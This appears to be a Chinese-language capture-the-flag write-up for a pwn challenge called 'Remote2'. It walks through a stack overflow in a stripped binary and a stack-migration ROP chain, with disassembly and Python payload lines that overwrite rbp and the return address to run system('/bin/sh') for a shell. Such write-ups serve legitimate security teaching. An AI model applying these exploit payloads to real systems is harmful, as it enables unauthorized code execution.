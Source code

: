 ##Remote2

這題雖然沒在時間內解出來，但是在回家路上靈光乍現還是來寫一下好了

P.S 由於**@Brainsp8210**的payload太漂亮了其實可以直接看他的----->[傳送門][brain]：

這題應該要會的，就是一個比較麻煩的**Stack Migration**，只能說自己經驗值不夠，沒有第一時間想到解法Orz

一開始先用`$ file pwn2`看了一下發現是`strip`過的binary，就超級不想看的QQ

`$ ./pwn2`就噴一個`sh: 1: lsh: not found`，然後就停在那不知道在幹嘛，於是用[Qira][qira]追一下，隨便送幾個AAAA然後發現他在做`read`，但是.....他是1 byte 1 byte的讀，然後最多可以讀64bytes，他會用`[rbp-0x4]`的4bytes來判斷現在讀了多少bytes了

	4005a3:       83 45 fc 01             add    DWORD PTR [rbp-0x4],0x1
	4005a7:       83 7d fc 3f             cmp    DWORD PTR [rbp-0x4],0x3f

從這段可以發現，64bytes全部讀完可以剛好蓋到**ret address**控制他的**control flow**

	400582:       8b 45 fc                mov    eax,DWORD PTR [rbp-0x4]
	400585:       48 8d 55 d0             lea    rdx,[rbp-0x30]
	400589:       48 01 d0                add    rax,rdx
	40058c:       ba 01 00 00 00          mov    edx,0x1
	400591:       48 89 c6                mov    rsi,rax
	400594:       bf 00 00 00 00          mov    edi,0x0
	400599:       e8 a2 fe ff ff          call   400440 <read@plt>

而且因為他要讀入的地方會受`[rbp-0x4]`而決定，所以也不能透過改那邊的值多蓋幾個bytes，所以就是控制**rbp**還有**ret address**來做到`*Stack Migration*`

payload#1:

```python
payload = 'A'*44 + '\x2c' + '\x00'*3 + p64(buffer1) + p64(read_start)
```
這邊的`'\x2c' + '\x00'*3`是剛好蓋到`rbp-0x4`的地方`0x2c == 44`剛好代表前面已經讀入的44bytes才能讓後面payload順利讀進去stack上，蓋完`'\x2c' + '\x00'*3`後下一格就是`rbp`的位置，為了要達到`*Stack Migration*`，要把`rbp`控制到空的buffer上，也就是控制程式的`Stack Frame`。

找`.bss`段中沒有用到的地方來做寫入

	00601000-00602000 rw-p 00001000 08:01 2878868

可以從後面找，比較不會影響到前面原有的東西，在這裡我的做法需要兩個buffer，然後再buffer1的**ret address**後面蓋成完整的`*ROP Chain*`
	
```python
buffer1 = 0x602000-0x100
buffer2 = buffer1+0x20+0xc
```

這邊的`buffer2`需要特別控制，因為在讀完`buffer1`跟`buffer2`之後需要再跳回`buffer1`之後直接讓他`ret`那邊執行疊好的`*ROP Chain*`，而在跳回`buffer1`時，他一樣會檢查`[rbp-0x4]`的值，因此我們在讀`buffer2`的時候就必須讓他把`rbp-0x4`的內容改成`0x00000000`所以除了將`buffer1`往下拉`0x20`個bytes之外還需要多拉`0xc`這樣寫入的頭就會在`rbp-0x4`的地方

另外還有一個需要特別注意的是，在`call read`的時候程式會在`buffer`的頭減掉`0x8`的地方放上`0x40059e`，在每次call完read之後會執行那段code，重新回到迴圈繼續寫入，因此在buffer2的時候，需要在當前`rsp-0x8`的位置放置`0x40059e`。

payload#2, 3:

```python
r.send('A'*44 + '\x2c' + '\x00'*3 + p64(buffer2) + p64(read_start))
r.send('\x00'*4 + 'A'*8 + p64(read_judge) + p64(sh) + p64(system) + 'A'*8 + '\x2c' + '\x00'*3 + p64(buffer1) + p64(read_start))
```

最後再回到buffer1把ret address蓋成`pop rdi ; ret`，他便會將剛剛放的`address of /bin/sh`pop到rdi然後ret執行`system`便能成功拿到`shell`。

[qira]: https://github.com/BinaryAnalysisPlatform/qira

[brain]: https://github.com/briansp8210